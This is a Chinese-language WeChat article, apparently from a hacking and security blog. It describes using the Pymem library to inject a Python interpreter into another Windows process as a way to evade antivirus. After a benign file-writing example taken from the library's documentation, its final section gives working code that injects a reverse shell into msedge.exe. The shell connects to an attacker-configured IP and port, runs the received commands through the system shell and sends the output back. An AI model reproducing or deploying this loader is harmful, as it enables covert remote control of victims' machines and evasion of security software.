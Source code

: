 #  写外挂时偶然想到的免杀思路

原创 EX  [ HB网络安全探究实验室 ](javascript:void\(0\);)

**HB网络安全探究实验室** ![]()

微信号 gh_db29c88c5c87

功能介绍 人生不为一事则长 欲成一事则短

____

___发表于_

收录于合集

#免杀 4 个

#黑客 12 个

#渗透测试 12 个

#网络安全 17 个

#脚本语言 4 个

  

源码：

H4ckBu7eer-EX/pymem_shellcodeloader: pymem加载shellcode到其他进程 (github.com)

  

* * *

各位大佬端午好！

最近在研究游戏逆向的时候，发现一个好玩的库——Pymem

> Pymem文档
>
> https://pymem.readthedocs.io/en/latest/index.html

  

* * *

多说不宜，咱开门见山。这个Pymem除了修改内存，还可以将python解释器以dll的形式注入到其他进程，进而在其他进程内执行shellcode

  

贴一段官网介绍：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624181225.png)

来看一段来自官方文档的代码，这段代码的使用 pymem 库来注入 Python 解释器和 Python shellcode 到 notepad.exe
进程中，注释很详细。

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # 导入pymem模块，这是一个Python内存操作库 from pymem import Pymem # 导入os模块，这是一个提供了丰富的操作系统相关功能的库 import os # 导入subprocess模块，这是一个用于产生子进程，连接到它们的输入/输出/错误管道，获取它们的返回码的库 import subprocess   
    # 使用subprocess.Popen启动记事本程序，并获取其进程对象 notepad = subprocess.Popen(['notepad.exe'])   
    # 使用Pymem模块连接到记事本程序 pm = Pymem('notepad.exe')   
    # 在记事本程序中注入Python解释器 pm.inject_python_interpreter()   
    # 获取当前目录下的pymem_injection.txt文件的绝对路径，并将路径中的反斜杠替换为双反斜杠 filepath = os.path.join(os.path.abspath('.'), 'pymem_injection.txt') filepath = filepath.replace("\\", "\\\\")   
    # 定义要注入的Python代码，这段代码会在记事本程序中执行，它会打开一个文件，写入一些内容，然后关闭文件 shellcode = """ f = open("{}", "w+") f.write("pymem_injection") f.close() """.format(filepath) # 将定义的Python代码注入到记事本程序中 pm.inject_python_shellcode(shellcode)  
     # 结束记事本程序 notepad.kill()

运行代码后会在pymem_injection.txt里写入pymem_injection。

那我们可以尝试用这种方式实现加载shellcode实现上线

  

* * *

正文：

先创建一个函数，用来指定shellcode和注入的进程

  *   *   *   *   *   * 

    
    
    def inject(shellcode,process):        prcs = subprocess.Popen([process])        pm = Pymem(process)        pm.inject_python_interpreter()        pm.inject_python_shellcode(shellcode)        prcs.kill()

然后写一段shellcode

  *   *   *   *   *   *   * 

    
    
    filepath = os.path.join(os.path.abspath('.'), 'pymem_injection.txt') filepath = filepath.replace("\\", "\\\\") sc = """ f = open("{}", "w+") f.write("pymem_injection") f.close() """.format(filepath)

看一下 **shellcode** 长什么样子（见程序输出），运行后已经将 **pymem_injection** 写入了

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624181226.png)

好了让我们来看看免杀写出来是什么样子

* * *

* * *

免杀.py：

  *   *   *   *   *   *   * 

    
    
    from pymemloader import inject sc="""import subprocessimport socketwith open('cfg', 'r') as f:    sip = f.readline().strip()    sport = int(f.readline().strip())print(sip,sport)client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)client_socket.connect((sip, sport))while True:    recv_data = client_socket.recv(20480)    command=recv_data.decode('utf-8')    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)    send_data=result.stdout.decode('gbk')    client_socket.send(send_data.encode('utf-8'))""" #上面的loader可以用自己的pythonshellcodeloader #我这里用的是我的python小控https://github.com/H4ckBu7eer-EX/python_remote_CMD inject(sc,"msedge.exe")

done!

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


